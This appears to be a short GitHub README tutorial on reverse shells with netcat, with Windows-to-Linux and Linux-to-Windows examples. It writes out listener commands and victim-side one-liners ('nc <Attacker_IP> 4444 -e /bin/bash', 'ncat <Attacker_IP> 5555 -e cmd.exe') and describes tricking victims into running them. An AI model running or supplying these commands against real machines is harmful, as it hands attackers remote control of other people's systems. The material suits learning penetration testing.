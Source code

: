 # Reverse-shell-access-using-netcat

I was gain a Reverse shell access uisng netcat in kali linux from windows ...vice versa

# What is Reverse shell access

A reverse shell is a type of connection where a target machine (the victim) initiates a connection back to an attacker’s machine. This allows the attacker to control the target machine remotely by executing commands on it.

# How Reverse Shell Works:

Attacker's Machine: Listens for incoming connections.

Victim's Machine: When compromised, it connects back to the attacker's machine, giving the attacker remote access.

# Two Simple Examples:

# Example 1: Attacker on Windows, Victim on Linux
**Attacker (Windows)**: Sets up a listener using netcat.

**Command**: ncat -lvp 4444

**This means**: "Listen on port 4444 and wait for a connection."

**Victim** (Linux): The attacker tricks the victim into running a command.

**Command**: nc <**Attacker_IP**> 4444 -e /bin/bash

**This means**: "Connect to the attacker's IP on port 4444 and give them access to my shell."

**Result**: The attacker now controls the Linux machine from the Windows machine.

# Example 2: Attacker on Linux, Victim on Windows
**Attacker** (Linux): Listens for incoming connections.

**Command**: nc -lvp 5555

**Victim** (Windows): The attacker gets the victim to run this command.

**Command**: ncat <**Attacker_IP**> 5555 -e cmd.exe

**This means**: "Connect to the attacker’s IP on port 5555 and give them access to my Windows command prompt."

**Result**: The attacker now has control over the Windows machine.

# In Summary:
**Reverse Shell**: The victim's machine connects back to the attacker's machine.
**Purpose**: Allows remote control over the victim's machine.
**Usage**: Often used in penetration testing or by hackers.
